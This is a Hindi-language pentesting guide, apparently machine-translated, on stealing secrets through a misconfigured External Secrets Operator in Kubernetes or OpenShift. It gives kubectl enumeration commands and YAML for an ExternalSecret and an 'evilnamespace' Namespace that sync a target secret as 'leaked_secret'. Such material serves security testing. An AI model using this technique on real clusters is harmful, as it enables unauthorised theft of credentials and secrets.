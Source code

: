 # बाह्य रहस्य ऑपरेटर

**इस पृष्ठ के मूल लेखक हैं** [**फारेस**](https://www.linkedin.com/in/fares-siala/)

यह पृष्ठ कुछ संकेत देता है कि आप कैसे एक गलत रूप से एसओ या एप्लिकेशन से रहस्य चुरा सकते हैं जो अपने रहस्यों को सिंक करने के लिए एसओ का उपयोग करता है।

## अस्वीकृति

नीचे दिखाई गई तकनीक केवल उस समय काम कर सकती है जब कुछ विशेष परिस्थितियाँ पूरी होती हैं। उदाहरण के लिए, यह उसे आवश्यकताओं पर निर्भर करता है जो एक रहस्य को सिंक करने की अनुमति देने की आवश्यकता होती है जो आपके पास / अपहरित किए गए नामक्षेत्र पर है। आपको इसे खुद ही समझना होगा।

## पूर्वापेक्षाएँ

1. एक कुबरनेटीज / ओपनशिफ्ट क्लस्टर में एडमिन प्रिविलेज के साथ एक फुटहोल्ड
2. कम से कम क्लस्टर स्तर पर बाह्य रहस्य को पढ़ने की पहुंच
3. यह तय करें कि क्या कोई आवश्यक लेबल / एनोटेशन या समूह सदस्यता की आवश्यकता है जो एसओ को आपके रहस्य को सिंक करने की अनुमति देती है। अगर आप भाग्यशाली हैं, तो आप किसी भी परिभाषित रहस्य को स्वतंत्र रूप से चुरा सकते हैं।

### मौजूदा क्लस्टर सीक्रेट स्टोर के बारे में जानकारी एकत्र करना

मान लेते हैं कि आपके पास उस संसाधन को पढ़ने के लिए पर्याप्त अधिकार हैं; पहले मौजूदा _**क्लस्टर सीक्रेट स्टोर्स**_ की सूची बनाकर शुरू करें।
```sh
kubectl get ClusterSecretStore
```
### बाह्य सीक्रेट गणना

चलो मान लेते हैं कि आपने एक ClusterSecretStore जिसका नाम _**mystore**_ है, पाया है। इसके बाद इसके संबंधित externalsecret की गणना करें।
```sh
kubectl get externalsecret -A | grep mystore
```
_यह संसाधन नेमस्पेस स्कोप का है, इसलिए जब तक आप पहले से पता नहीं कर लेते कि आपको किस नेमस्पेस की तलाश है, तो सभी नेमस्पेस के लिए देखने के लिए -A विकल्प जोड़ें।_



_आपको परिभाषित externalsecret की सूची मिलनी चाहिए। यह मान लें कि आपने नेमस्पेस _**mynamespace**_ द्वारा परिभाषित और उपयोग किया गया externalsecret ऑब्जेक्ट _**mysecret**_ पाया है। यह जानने के लिए और अधिक जानकारी जुटाएं कि यह किस प्रकार का सीक्रेट रखता है।_
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### टुकड़े जोड़ना

यहाँ से आप एक या एक से अधिक रहस्य नाम प्राप्त कर सकते हैं (जैसे कि रहस्य संसाधन में परिभाषित किया गया है)। आपको एक आउटपुट प्राप्त होगा जैसे:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```html
<p>अब तक हमें मिला है:</p>

<ul>
<li>ClusterSecretStore का नाम</li>
<li>ExternalSecret का नाम</li>
<li>रहस्य का नाम</li>
</ul>

<p>अब जब हमारे पास सब कुछ है, तो आप एक ExternalSecret बना सकते हैं (और अंततः एक नए Namespace को पैच/बना सकते हैं ताकि आपके नए रहस्य को सिंक करने के लिए आवश्यक पूर्वापेक्षाएं पूरी हों):</p>
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
कुछ मिनटों के बाद, यदि सिंक शर्तें पूरी हो गईं थीं, तो आपको अपने नेमस्पेस के अंदर लीक किए गए रहस्य को देखने में सक्षम होना चाहिए।
```sh
kubectl get secret leaked_secret -o yaml
```
## संदर्भ

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
